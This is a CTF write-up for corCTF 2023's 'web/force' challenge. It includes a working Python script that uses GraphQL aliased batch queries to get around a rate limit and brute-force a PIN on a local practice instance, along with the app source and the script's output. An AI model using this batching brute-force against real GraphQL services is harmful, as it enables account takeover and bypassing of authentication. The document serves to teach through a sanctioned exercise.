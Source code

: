 # corCTF 2023
## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```Dockerfile
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .                                                              docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d    
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page

![main_page](img/force_main.png)

At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.

![first_try](img/force_first_try.png)

Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination. I then look to the `web.js` for more information of the app.

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});

const index = await readFile('./index.html', 'utf-8');
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag: 
`corctf{S                T                  O               N                   K                 S}`
